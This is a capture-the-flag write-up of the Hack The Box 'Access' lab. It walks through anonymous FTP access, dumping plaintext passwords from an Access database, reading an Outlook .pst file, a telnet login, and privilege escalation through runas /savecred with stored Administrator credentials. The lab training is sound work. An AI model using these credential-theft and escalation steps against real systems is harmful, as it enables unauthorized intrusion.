 ## Access 

### Lab Details 

- Difficulty: Easy
- Type: Telnet, FTP, Priv Esc, Windows

#### Tasks
Q1:How many TCP ports are listening on Access?
- output from nmap `nmap -sT -T4 -vv -A -p- -oA Access 10.10.10.98`
```
PORT   STATE SERVICE REASON  VERSION
21/tcp open  ftp     syn-ack Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: PASV failed: 425 Cannot open data connection.
| ftp-syst: 
|_  SYST: Windows_NT
23/tcp open  telnet  syn-ack Microsoft Windows XP telnetd (no more connections allowed)
| telnet-ntlm-info: 
|   Target_Name: ACCESS
|   NetBIOS_Domain_Name: ACCESS
|   NetBIOS_Computer_Name: ACCESS
|   DNS_Domain_Name: ACCESS
|   DNS_Computer_Name: ACCESS
|_  Product_Version: 6.1.7600
80/tcp open  http    syn-ack Microsoft IIS httpd 7.5
|_http-server-header: Microsoft-IIS/7.5
|_http-title: MegaCorp
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
```
Q2: What is the filename for the Microsoft Access database available on the host?
 - port 22 (ftp) is open, and based on the output from nmap anonymous login is allowed
 - login to target with anonymous and performed below
```
ftp 10.10.10.98
Connected to 10.10.10.98.
220 Microsoft FTP Service
Name (10.10.10.98:kali): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password: 
230 User logged in.
Remote system type is Windows_NT.
ftp> ls
425 Cannot open data connection.
200 PORT command successful.
125 Data connection already open; Transfer starting.
08-23-18  09:16PM       <DIR>          Backups
08-24-18  10:00PM       <DIR>          Engineer
226 Transfer complete.
ftp> cd Backups
250 CWD command successful.
ftp> ls
200 PORT command successful.
125 Data connection already open; Transfer starting.
08-23-18  09:16PM              5652480 backup.mdb
226 Transfer complete.
ftp> binary
200 Type set to I.
ftp> mget backup.mdb
```

Q3: What table in the database has user passwords?
- to interact with mdb file, tools like Mdbtools can be installed. 
```
# list tables in mdb
mdb-tables backup.mdb

# list tables 1 table name per line
mdb-tables backup.mdb -1

# output data in a table in json format
mdb-json backup.md auth_user
```
- table auth_user looks interesting below is the data
```
{"id":25,"username":"admin","password":"admin","Status":1,"last_login":"08/23/18 21:11:47","RoleID":26}
{"id":27,"username":"engineer","password":"access4u@security","Status":1,"last_login":"08/23/18 21:13:36","RoleID":26}
{"id":28,"username":"backup_admin","password":"admin","Status":1,"last_login":"08/23/18 21:14:02","RoleID":26}
```

Q4: What is the password for Access Control.zip?
- Access Control.zip is located in Engineers directory in target ftp server 
- to obtain the password we will need to use `zip2john` then crack it with `john`
- however we can also try using the password found in the mdb file to access it
- password = `access4u@security`

Q5: What is the password for the security user?
- we get Access Control.pst file which is used to stored Microsoft Outlook data
- install `pst-utls` tool to interact with `.pst` file
- we can use `readpst` to get the output 
```
# create a directory for the output to be stored
$: mkdir mail
# -o: output directory 
# -S: input pst file
$: readpst -o mail -S 'Access Control.pst'
$: tree mail
mail
└── Access Control
    └── 2
# password is in the file named '2'
```

Q6: To which open TCP port on Access can we connect to get a shell after logging in as security?
 - theres a open telnet port (23) we can try to connect to it 
 - `telnet target_ip 23`
 - once connected will prompt for username and password 
 - login with password found in the pst file

Q7: Submit the flag located on the security user's desktop.
 -  after gaining shell access run below to get the flag
 -  `type \Desktop\user.txt

Q8: What is the name of the executable called by the link file on the Public desktop?
 - there is a `.lnk` file located at `C:\Users\Public\Desktop`
 - to see the file that its executing by using `type` similar to `cat`
 - `type ZKAccess3.5 Security System.lnk`
```
PS C:\Users\Public\desktop> type "ZKAccess3.5 Security System.lnk"
L?F?@ ??7???7???#?P/P?O? ?:i?+00?/C:\R1M?:Windows???:?▒M?:*wWindowsV1MV?System32???:?▒MV?*?System32▒X2P?:?
                                                                                                           runas.exe???:1??:1?*Yrunas.exe▒L-K??E?C:\Windows\System32\runas.exe#..\..\..\Windows\System32\runas.exeC:\ZKTeco\ZKAccess3.5G/user:ACCESS\Administrator /savecred "C:\ZKTeco\ZKAccess3.5\Access.exe"'C:\ZKTeco\ZKAccess3.5\img\AccessNET.ico?%SystemDrive%\ZKTeco\ZKAccess3.5\img\AccessNET.ico%SystemDrive%\ZKTeco\ZKAccess3.5\img\AccessNET.ico?%?
                                                                                                                                       ?wN?▒?]N?D.??Q???`?Xaccess?_???8{E?3
               O?j)?H???
                        )??[?_???8{E?3
                                      O?j)?H???
                                               )??[?    ??1SPS??XF?L8C???&?m?e*S-1-5-21-953262931-566350628-63446256-500
```
 - the program thats executed is runas

Q9: What Windows command, when given the /list option, will print information about the stored credentials available to the current user?
 - the Windows command will print stored creds given /list flag is `cmdkeys` - read more on this check out `Windows Privilege Escalation -> Further Credential Theft` module from HTB Academy, goes in depth on this topic
  
Q10: What option can be given to the runas Windows command to have it use the saved credentials and run as that user? Include the leading /.
- flag `/savecred` will use the saved cred instead of user input

Q11: Submit the flag located on the administrator's desktop.
- to get the root flag we will need to contruct the runas command to as below
- running as Administrator to output the root.txt's content to another file 
```
PS C:\Users\Public\desktop> cmdkey /list

Currently stored credentials:

    Target: Domain:interactive=ACCESS\Administrator
    Type: Domain Password
    User: ACCESS\Administrator

# runas as Administrator to get output from root.txt on C:\Users\Administrator\Desktop and save it to root.txt
C:\Windows\System32\runas.exe /savecred /user:ACCESS\Administrator "cmd.exe /c type C:\Users\Administrator\Desktop\root.txt > root.txt"

# get the flag
cat C:\Windows\System32\root.txt
```


#### Lesson Learned
 - Ways to interact with .mdb files 
 - Ways to interact with .pst files 
